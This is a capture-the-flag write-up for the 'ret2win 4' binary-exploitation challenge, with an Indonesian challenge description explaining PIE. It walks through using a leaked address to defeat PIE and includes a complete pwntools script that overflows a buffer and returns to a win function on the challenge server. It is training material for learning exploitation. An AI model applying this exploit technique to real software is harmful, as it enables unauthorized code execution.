 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 4

> Mitigasi lain untuk menyusahkan penyerang dalam mengubah alur program adalah PIE. PIE adalah singkatan dari Position Independent Executable yang mengakibatkan program kita untuk di-load ke dalam memori dengan offset random. Jadi walaupun ada buffer overflow, penyerang tidak tau alamat dari fungsi/instruksi yang ingin dijalankan. Tapi, kalau kita bisa dapetin salah satu alamat dari program saat dijalankan, alamat dari fungsi/instruksi yang ingin dijalankan tinggal dihitung dari selisihnya dengan alamat yang udah didapetin tadi.
>
> Author: **zran**

{% file src="../../.gitbook/assets/ret2win4.zip" %}

First time learning PIE, and this challenge is a simple introduction to PIE. The goal is to buffer overflow but with PIE in mind. First step is to use the given leak to get PIE, since it's a global variable it's very easy to find the offset. _(see 0x404c \<what\_is\_this\_for>)_

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Main function debug</p></figcaption></figure>

Just subtract the leaked address with -0x404c and we get the base address for ROP:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19003
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19003)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

log.info(io.recvuntil(': '))
leak = int(io.recvline(), 16)
log.success(f"Gifted address: {hex(leak)}")
base_addr = leak - 0x000000000000404c
log.success(f"Base address: {hex(base_addr)}")
log.info(io.clean()) 

payload = b'A' * 120
payload += p64(base_addr + 0x000000000000101a) # ret
payload += p64(base_addr + 0x0000000000001209) # win
log.success(f"Payload: {payload}")

log.info(io.clean())
io.sendline(payload)
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
